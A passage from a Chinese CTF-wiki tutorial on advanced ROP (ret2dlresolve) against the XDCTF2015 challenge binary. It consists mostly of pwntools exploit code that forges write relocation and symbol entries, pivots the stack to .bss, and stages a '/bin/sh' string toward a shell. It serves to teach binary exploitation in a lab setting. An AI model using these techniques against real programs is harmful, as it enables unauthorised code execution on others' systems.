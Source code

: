 ```python
  ## fake ret addr of write
  rop.raw('bbbb')
  rop.raw(1)
  rop.raw(base_stage + 80)
  rop.raw(len(sh))
  rop.raw(fake_write_reloc)  # fake write reloc
  rop.raw('a' * align)  # padding
  rop.raw(fake_write_sym)  # fake write symbol
  rop.raw('a' * (80 - len(rop.chain())))
  rop.raw(sh)
  rop.raw('a' * (100 - len(rop.chain())))

  r.sendline(rop.chain())
  p.recv()
```

![Alt](img/wiki-AdvancedRop8.png)

#### STAGE5

这一阶段，我们将在阶段 4 的基础上，我们进一步使得 write 符号的 st_name 指向我们自己构造的字符串。

```python
  from pwn import *
  elf = ELF('main')
  r = process('./main')
  rop = ROP('./main')

  offset = 112
  bss_addr = elf.bss()

  r.recvuntil('Welcome to XDCTF2015~!\n')

  ## stack pivoting to bss segment
  ## new stack size is 0x800
  stack_size = 0x800
  base_stage = bss_addr + stack_size
  ### padding
  rop.raw('a' * offset)
  ### read 100 byte to base_stage
  rop.read(0, base_stage, 100)
  ### stack pivoting, set esp = base_stage
  rop.migrate(base_stage)
  r.sendline(rop.chain())

  ## write sh="/bin/sh"
  rop = ROP('./main')
  sh = "/bin/sh"
```